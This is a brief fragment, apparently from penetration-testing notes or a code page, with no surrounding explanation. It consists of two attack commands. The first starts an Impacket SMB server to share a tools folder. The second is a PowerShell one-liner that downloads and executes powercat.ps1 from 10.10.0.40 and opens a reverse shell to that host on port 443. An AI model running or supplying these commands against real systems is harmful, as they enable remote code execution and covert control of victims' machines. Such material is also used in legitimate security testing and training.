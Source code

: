python3 /usr/share/doc/python3-impacket/examples/smbserver.py tools .

powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.0.40/powercat.ps1');powercat -c 10.10.0.40 -p 443 -e cmd"